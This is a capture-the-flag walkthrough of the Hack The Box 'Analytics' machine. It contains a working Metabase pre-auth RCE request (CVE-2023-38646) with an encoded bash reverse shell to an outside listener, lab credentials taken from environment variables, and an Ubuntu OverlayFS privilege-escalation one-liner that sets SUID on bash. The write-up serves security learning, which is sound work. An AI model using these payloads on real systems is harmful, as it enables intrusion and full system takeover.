



## Enumeration
Initial nmap:
```
Nmap scan report for 10.10.11.233
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```
We can see that the web server on port 80 is attempting to redirect. So, we need to add `analytical.htb` to our /etc/hosts file:
```
┌──(kali㉿kali)-[~/Documents/Analytics]
└─$ tail /etc/hosts
<...SNIP...>
ff02::2         ip6-allrouters

10.10.11.233 analytical.htb
```
Now, we are able to visit the main page:


When we check the header tabs ("About","Team", etc), we can see that `Login` takes us to a new subdomain. This is easier visualized by viewing the page source code:
```html
<div class="navbar-nav">
                <a class="nav-item nav-link active" href="[#](view-source:http://analytical.htb/#)">Home</a>
                <a class="nav-item nav-link" href="[#about](view-source:http://analytical.htb/#about)">About</a>
                <a class="nav-item nav-link" href="[#team](view-source:http://analytical.htb/#team)">Team</a>
                <a class="nav-item nav-link" href="[#services](view-source:http://analytical.htb/#services)">Services</a>
                <a class="nav-item nav-link" href="[#contact](view-source:http://analytical.htb/#contact)">Contact</a>
                <a class="nav-item nav-link" href="[http://data.analytical.htb](view-source:http://data.analytical.htb/)">Login</a>
```
None of the others go to new pages, however login will take us to `data.analytical.htb`. This also must be added to our /etc/hosts line first:
```
10.10.11.233 analytical.htb data.analytical.htb
```
Now visiting the login domain, we see a Metabase login:



Trying a few credentials as a guess doesn't work.
Taking a look at directory fuzzing, we can see `api` pages:
```
┌──(kali㉿kali)-[~/Documents/Analytics]
└─$ feroxbuster -u http://data.analytical.htb

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://data.analytical.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       28l     3538w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter                                                                                                                                 
404      GET        1l        5w       30c http://data.analytical.htb/api
404      GET        1l        2w       10c http://data.analytical.htb/app
<...SNIP..>
```
## Foothold
### Exposed secret token allows for Remote Code Execution when establishing a new Database (CVE-2023-38646) 
Researching Metabase vulnerabilities, we can find [this recent incident disclosure](https://www.metabase.com/blog/security-incident-summary). There is an admission that a private setup-token can actually be viewed upon accessing `/api/session/properties`. When visiting this page, we can find the setup-token for our target as well!



Next, we can go to `/api/setup/validate` and supply the token, setup an H2 database, and achieve remote code execution! How this is done, exactly, isn't explained well in the disclosure. However, with a little bit of looking, we might find [another article](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) that can detail a working payload. 
The payload can be supplied a few ways, but I decided to utilize burpsuite since it has a Pretty function, making the request easier to read and understand. Request payload:
```json
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 598


{
        "token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":{
                "is_on_demand":false,
                "is_full_sync":false,
                "is_sample":false,
                "cache_ttl":null,
                "refingerprint":false,
                "auto_run_queries":true,
                "schedules":{},
                "details":{
                        "db":"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
                        "advanced-options": false,
                        "ssl": true
                },
                "name":"asdf",
                "engine":"h2"
        }
}
```
Request/Response in Burpsuite:


Payload is within the `exec` segment: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}` The base64 encoded string refers to a basic rev shell: `bash -i >& /dev/tcp/10.10.14.191/8888 0>&1` Using the base64 in this way will avoid errors from special characters such as > and &.
On my netcat listener:
```
┌──(kali㉿kali)-[~/Documents/Analytics]
└─$ nc -nvlp 8888         
listening on [any] 8888 ...
connect to [10.10.14.191] from (UNKNOWN) [10.10.11.233] 51222
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
2c83a4df89a6:/$ 
```
### Enumerating docker container
We can find out rather quickly that this is a docker container, based on the `.dockerenv` file:
```
2c83a4df89a6:/$ ls -al
ls -al
total 92
drwxr-xr-x    1 root     root          4096 Oct  5 21:44 .
drwxr-xr-x    1 root     root          4096 Oct  5 21:44 ..
-rwxr-xr-x    1 root     root             0 Oct  5 21:44 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Oct  5 21:44 dev
drwxr-xr-x    1 root     root          4096 Oct  5 21:44 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  212 root     root             0 Oct  5 21:44 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Oct  5 21:44 sys
drwxrwxrwt    1 root     root          4096 Oct  7 20:00 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
```
A short bit of enumeration later, we can find a very interesting entry into our environment:
```
2c83a4df89a6:/app$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=2c83a4df89a6
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
<...SNIP...>
```
We have a pair of credentials as `metalytics:An4lytics_ds20223#`
Using this, we can ssh into the system outside of the docker container:
```
┌──(kali㉿kali)-[~]
└─$ ssh metalytics@10.10.11.233
metalytics@10.129.147.5's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
<...SNIP...>
metalytics@analytics:~$ 
```
## Privilege Escalation
The next step was quite troublesome with no real indication of vulnerability. Since the CVE is so recent, most common vulnerability scanners do not pick up on it. However, if your eye is keen enough, you can pick up on the Ubuntu kernel version:
```
metalytics@analytics:/tmp$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```
A google search for this version, and you can quickly find posts about [CVE-2023-2640 & CVE-2023-32629](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). In this post, there are a couple example 1 liners we can try to execute. Trying the first POC with id:
```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
Although there are some error messages, we can see the `id` is processed, and we are shown to have uid of root! Next, we can try supplying a malicious command, making a `SUID` out of bash. This will allow anybody to spawn a bash session as root:
```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod +s /bin/bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
Failed to set capabilities on file `l/python3' (No such file or directory)
The value of the capability argument is not permitted for a file. Or the file is not a regular (non-symlink) file
metalytics@analytics:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
We still get an error about capability permissions, but when we look at the bash file, we can see SUID is set! we can now enter a bash session as root:
```
metalytics@analytics:~$ bash -p
bash-5.1# whoami
root
bash-5.1# 
```
## Reflection
The box is very simple and easy in terms of the number and complexity of steps, with no real amount of depth to them. The path to user was at least unique enough to feel fresh, but the path to root felt stale, and the difficulty was entirely built on the fact that the CVE is not included in the current common kernel exploit scanners (at the time).
